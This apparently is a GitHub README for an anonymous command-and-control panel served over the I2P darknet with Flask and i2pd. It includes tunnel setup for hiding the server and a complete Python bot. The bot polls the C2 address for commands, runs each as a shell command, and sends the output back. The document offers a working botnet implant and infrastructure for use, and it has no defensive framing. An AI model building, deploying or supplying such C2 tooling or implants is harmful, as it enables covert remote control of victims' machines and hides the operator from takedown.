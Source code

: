 # 🕵️‍♂️ I2P Command & Control Panel

A fancy, lightweight, and anonymous Command & Control (C2) panel built using Flask, Bootstrap 5, and SQLite — accessible via the I2P darknet using `i2pd`.

---

## ✅ Features

- ✨ Modern Bootstrap 5 UI with animations (Animate.css)
- 🧠 SQLite-based command and response tracking
- 🔐 Full C2 communication over I2P `.b32.i2p` addresses
- 🕸️ Remote command dispatch and bot response capture
- 🛡️ Input sanitization using `bleach` for security
- 📱 Responsive and mobile-friendly design

---

## ✅ 1. Installation

### Requirements

- Python 3.8+
- Flask
- SQLite3
- `i2pd` (I2P router daemon)
- `bleach` (for secure input filtering)

### Install dependencies:

```bash
pip install flask bleach
````

---

## ✅ 2. Running the Panel

Clone and run:

```bash
git clone https://github.com/yourname/i2p-c2-panel.git
cd i2p-c2-panel
python3 app.py
```

Your panel will now be accessible locally at:

```
http://127.0.0.1:8080
```

---

## ✅ 3. I2P Tunnel Setup

### Option A: Using `i2pd` (Fastest and Headless)

#### Install i2pd (Debian/Ubuntu):

```bash
sudo apt install i2pd
```

#### Edit `~/.i2pd/tunnels.conf`:

```ini
[c2_panel]
type = http
address = 127.0.0.1
port = 8080
inport = 80
keys = c2.dat
```

#### Start the daemon:

```bash
sudo systemctl start i2pd
```

#### Check your I2P hostname:

```bash
cat ~/.i2pd/c2.dat.b32.i2p
```

You can now access the panel via:

```
http://[c2name].b32.i2p
```

> 📌 Note: Use an I2P-enabled browser or proxy to access `.b32.i2p` addresses.

---

## ✅ 4. Bot Communication Example

Here's an example Python bot that polls the C2 for commands and reports results:

```python
import time, requests, subprocess

C2 = "http://[your-c2-name].b32.i2p"
NAME = "test-bot"

while True:
    try:
        cmd = requests.get(f"{C2}/get_command").text
        if cmd:
            out = subprocess.getoutput(cmd)
            requests.post(f"{C2}/submit_output", data={"name": NAME, "output": out})
        time.sleep(30)
    except:
        time.sleep(60)
```

🛡️ Ensure the bot can resolve `.b32.i2p` addresses through an I2P proxy or local tunnel.

---

## ✅ 5. Directory Structure

```
i2p-c2-panel/
├── app.py
├── c2.db               # Auto-created on first run
└── templates/
    └── index.html      # Bootstrap 5 + Animate.css UI
```

---

## ✅ 6. Summary

| Component   | Purpose                          |
| ----------- | -------------------------------- |
| Flask       | Backend server and web interface |
| Bootstrap 5 | Fancy responsive UI              |
| Animate.css | Smooth UI animations             |
| SQLite      | Store commands and outputs       |
| bleach      | Secure input sanitization        |
| I2P / i2pd  | Anonymous access via `.b32.i2p`  |

---
